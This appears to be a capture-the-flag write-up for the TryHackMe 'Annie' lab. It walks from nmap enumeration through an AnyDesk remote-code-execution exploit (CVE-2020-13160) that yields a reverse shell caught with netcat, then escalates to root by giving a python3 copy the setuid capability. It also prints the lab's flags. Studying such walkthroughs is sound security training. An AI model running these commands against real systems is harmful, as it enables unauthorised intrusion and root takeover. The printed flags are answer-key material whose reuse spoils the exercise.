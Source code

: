 ```yaml
---
title: "Annie"
author: "Divyanshu Sharma"
date: 2022-11-30
permalink: /tryhackme/Annie
tags: tryhackme
---
```

# IP
10.10.226.12

## Enumeration

### Nmap
Found 2 port running on the system 
```console
❯ nmap -sC -sV 10.10.226.12 | tee nmap.log
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-21 11:52 IST
Nmap scan report for 10.10.226.12
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
|_  256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
7070/tcp open  ssl/realserver?
| ssl-cert: Subject: commonName=AnyDesk Client
| Not valid before: 2022-03-23T20:04:30
|_Not valid after:  2072-03-10T20:04:30
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 791.73 seconds
```

The service running on port `7070/tcp` is anyDesk, on googling found this service to be exploitable ([CVE:2020-13160](https://nvd.nist.gov/vuln/detail/CVE-2020-13160)) for linux systems. 


## Exploit
### Anydesk ([CVE:2020-13160](https://nvd.nist.gov/vuln/detail/CVE-2020-13160))
Found Remote Code execution for `Anydesk 5.5.2`, after making changes to the exploit and running this exploit got a reverse shell.
```console
❯ python2 49613.py
sending payload ...
reverse shell should connect within 5 seconds
```
```console
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.0.150] from (UNKNOWN) [10.10.226.12] 44538
python3 -c "import pty; pty.spawn('/bin/bash')"
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

annie@desktop:/home/annie$
```
Found `user.txt` 
```console
annie@desktop:/home/annie$ cat user.txt
THM{N0t_Ju5t_ANY_D3sk}
```
### Privilege Escalation 
Found `setcap` as `SUID` binary on looking for exploit found [this](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example).
```console
annie@desktop:/home/annie$ cp /usr/bin/python3 .
annie@desktop:/home/annie$ setcap cap_setuid+ep ./python3
annie@desktop:/home/annie$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash");'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
root@desktop:/home/annie# cat /root/root.txt
THM{0nly_th3m_5.5.2_D3sk}

```
